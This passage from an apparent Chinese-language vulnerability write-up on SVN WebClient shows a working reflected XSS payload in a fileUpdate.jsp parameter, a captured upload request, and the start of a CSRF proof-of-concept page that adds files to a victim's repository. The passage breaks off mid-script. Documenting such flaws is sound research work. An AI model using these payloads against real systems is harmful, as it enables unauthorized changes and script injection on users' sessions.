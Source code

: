 ### second vuln
* 继续观察该应用功能，视线关注到添加文件更新功能，其存在于点选某存储在SVN的文件后。引起我注意的是，它的URL中依旧类似添加文件夹的功能，存在一个url参数，用于设定需要更新的文件名。
* 尝试前一处漏洞的payload，依旧可以成功执行:![xss5](https://fseeeye.oss-cn-hangzhou.aliyuncs.com/blog/20200529CVE/xss5.png)
* 我们可以按照之前的思路，看看有没有新的问题出现，可以注意到这次的matches多出了一处，是一个hidden的input标签。虽然它依旧需要我们写入标签，但不需要a标签闭合，也不是复制URL进值中，可以逃逸双引号。既然如此，我们继续尝试构造payload，观察其不能够过滤何种标签。![xss6](https://fseeeye.oss-cn-hangzhou.aliyuncs.com/blog/20200529CVE/xss6.png)
* 测试到img标签后，发觉写入成功，成功挖掘到另一个XSS，payload如下：`fileUpdate.jsp?location=test&url=wpd3dGY%22%3E%3Cimg%20src=a%20onerror=alert(1)%3E`![xss7](https://fseeeye.oss-cn-hangzhou.aliyuncs.com/blog/20200529CVE/xss7.png)

该应用中依旧存在多处XSS，供读者按照思路动手实践。

## CSRF
对于CSRF漏洞，我们挖掘时应该更换一种思路——从漏洞的防御上思考。为什么普遍采用这种思路呢？因为目前CSRF防御思路非常简单，除了不太通用的检查HTTP Refer是否同域，一般采用验证码、一次性token等在使用关键功能时，验证用户身份。我们只要在浏览Web应用是否实现了这种防御措施，即可初步判断其是否存在CSRF漏洞，很自然的，svn webclient并没有做到这一点，我们可以通过创建恶意站点，又到用户访问后即可在其不知情的情况下做到插入文件、新建文件夹等。
* 在我们创建恶意站点前，需要先用BurpSuite等工具拦截数据包，了解其传输数据构成。如插入一个名为`csrf.html`文件的HTTP请求内容如下：
```
POST /svnwebclient/fileAddAction.jsp?location=test&url= HTTP/1.1
Host: 10.0.0.2:8080
Content-Length: 307
Cache-Control: max-age=0
Origin: http://10.0.0.2:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4aEfgEhGN990clxI
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.0.0.2:8080/svnwebclient/fileAdd.jsp?location=test&url=
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,la;q=0.7
Cookie: JSESSIONID=915759257D068C82D0F4B17741A1208A; DirectoryContentSortField=name; DirectoryContentSortOrder=asc
Connection: close

------WebKitFormBoundary4aEfgEhGN990clxI
Content-Disposition: form-data; name="filepath"; filename="csrf.html"
Content-Type: text/html

xxxx
------WebKitFormBoundary4aEfgEhGN990clxI
Content-Disposition: form-data; name="comment"

File was added remotely
------WebKitFormBoundary4aEfgEhGN990clxI--
```
* 根据其内容，我们可以创建一个通过点击在svn中插入`csrf.html`文件的恶意站点：
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/<HIDDEN>\/svnwebclient\/fileAddAction.jsp?location=<LOCATION>&url=", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryFqGs6aNB3pRkk9TY");
```